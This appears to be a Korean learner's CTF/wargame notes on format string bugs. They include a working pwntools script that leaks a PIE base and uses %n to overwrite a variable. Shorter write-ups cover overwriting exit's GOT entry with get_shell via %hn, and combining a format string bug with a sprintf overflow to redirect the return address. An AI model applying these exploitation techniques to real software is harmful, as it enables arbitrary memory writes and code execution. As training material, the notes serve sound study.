 - **포맷 스트링(Format String)**: `printf`를 비롯한 포맷 스트링 함수들이 파싱하여 처리하는 문자열.
- **포맷 스트링 버그(Format String Bug, FSB)**: 프로그래머가 포맷 스트링 함수를 잘못 사용하여 발생하는 버그. 공격자에 의해 스택 읽기, 임의 주소 쓰기, 임의 주소 읽기에 사용될 수 있음.
- **형식 지정자(Format Specifier)**: 포맷 스트링에 대입되는 인자의 형식을 지정함. `%d`, `%x`, `%u`, `%s`, `%n` 등이 있음.

# **익스플로잇 설계**

## **1. changeme 주소 구하기**

`changeme` 의 값을 조작하려면 해당 변수의 주소를 먼저 알아내야 합니다. 바이너리에는 PIE 보호 기법이 적용되어 있으므로, 전역 변수인 `changeme` 의 주소는 실행할 때마다 바뀝니다. 따라서 PIE 베이스 주소를 먼저 구하고, 그 주소를 기준으로 `changeme` 의 주소를 계산해야 합니다.

## **2. changeme를 1337로 설정하기**

`get_string` 으로 `changeme` 의 주소를 스택에 저장하면, `printf` 함수에서 `%n` 으로 `changeme` 의 값을 조작할 수 있습니다. 1337바이트의 문자열을 미리 출력하고, 위 방법으로 `changeme` 에 값을 쓰면 `changeme` 를 1337로 설정할 수 있습니다.

# **changeme 주소 구하기**

`disassemble main` 명령어를 사용해 `printf` 함수가 호출되는 오프셋을 찾고 해당 위치에 브레이크포인트를 설정합니다. `run` 명령어로 프로그램을 실행하면 `get_string` 함수에서 입력을 받습니다. 특정한 값을 입력하면 다음과 같이 `printf` 함수를 호출하기 직전에 브레이크포인트가 걸립니다.

# **Format String Bug**

**보호 기법🛡️**

PIE, NX를 포함한 보호 기법이 적용되어 있습니다. 카나리는 발견되지 않았으나 SFP나 반환 주소를 변조할 만한 스택 버퍼 오버플로우 취약점이 존재하지 않아 큰 의미는 없습니다

## **코드 분석 🔎**

예제에서는 `get_string` 함수를 통해 `buf` 에 32바이트 입력을 받습니다. 사용자가 입력한 `buf` 를 `printf` 함수의 인자로 직접 사용하므로 포맷 스트링 버그 취약점이 발생합니다.

# **changeme 덮어쓰기**

`changeme` 변수의 주소를 알고, 1337의 길이를 갖는 문자열도 출력할 수 있으므로, 다음과 같은 포맷 스트링을 구성하면 `changeme`의 값을 1337로 쓸 수 있습니다. 포맷 스트링을 구성하고, 익스플로잇을 실행하면 아래 실행 결과와 같이 `good`이 출력됩니다.

```python
#!/usr/bin/env python3
# Name: get_changeme.py
from pwn import *

def slog(n, m): return success(': '.join([n, hex(m)]))

p = process('./fsb_overwrite')
elf = ELF('./fsb_overwrite')

# [1] Get Address of changeme
p.sendline(b'%15$p') # FSB
leaked = int(p.recvline()[:-1], 16)
code_base = leaked - 0x1293
changeme = code_base + elf.symbols['changeme']

slog('code_base', code_base)
slog('changeme', changeme)

# [2] Overwrite changeme
payload = b'%1337c' # 1337을 min width로 하는 문자를 출력해 1337만큼 문자열이 사용되게 합니다.
payload += b'%8$n' # 현재까지 사용된 문자열의 길이를 8번째 인자(p64(changeme)) 주소에 작성합니다.
payload += b'A'*6 # 8의 배수를 위한 패딩입니다.
payload = payload + p64(changeme) # 페이로드 16바이트 뒤에 changeme 변수의 주소를 작성합니다.

p.sendline(payload)

p.interactive()
```

//

basic exploitation 002

예제대로 진행 

코드를 보면 

main 함수 부분을 보면 printf(buf); 코드가 있는 것을 볼 수 있다.

이는 포맷 스트링 버그를 일으킬 수 있다.

exit의 GOT에 get_shell함수의 시작 주소를 넣어 exit(0);가 실행될 때 get_shell 함수가 실행될 수 있도록 하면 될 것이다.

exit_GOT : 0x8048476
get_shell: 0x8048609
이제 exit_GOT에 get_shell함수의 시작 주소를 넣어야 되는데, 상위 2바이트는 0x0804로 같은 것을 볼 수 있다.
따라서 하위 2바이트만 0x8609로 덮어 주면 되는데, 이를 partial overwrite라고 하며, %hn를 이용하면 된다.

처음 입력한 %p가 앞의 aaaa를 가리키는 것을 볼 수 있다.

0x8609 = 34313이고, 앞에 주소를 적어 줌으로써 4바이트를 사용하였으므로 34313 - 4 = 34309를 넣어 주면 된다.

![basic_exploitation_002.jpg](https://github.com/JoWoonJi/Dreamhack_Wargame/blob/main/SystemHacking/img/basic_exploitation_002.jpg)

플래그 획득

//

exit_GOT : 0x8048476

get_shell: 0x8048609

이제 exit_GOT에 get_shell 함수의 시작 주소를 넣어야 되는데, 상위 2바이트는 0x0804로 같은 것을 볼 수 있다.

따라서 하위 2바이트만 0x8609로 덮어 주면 되는데, 이를 partial overwrite라고 하며, %hn를 이용하면 된다.

basic exploitation 003

002와 비슷한 로직에 + 버퍼오버플로우 

FSB를 이용해서 heap_buf에 %[stack_buf~RET]c + get_shell을 넣고 sprintf() 함수를 이용해서 버퍼 오버플로우를 발생시켜서 RET 값을 get_shell 함수의 주소로 변조 

buf ~ RET 까지 거리는 156
156 = 0x98 + 0x4

![basic_exploitation_003.jpg](https://github.com/JoWoonJi/Dreamhack_Wargame/blob/main/SystemHacking/img/basic_exploitation_003.jpg)

플래그 획득
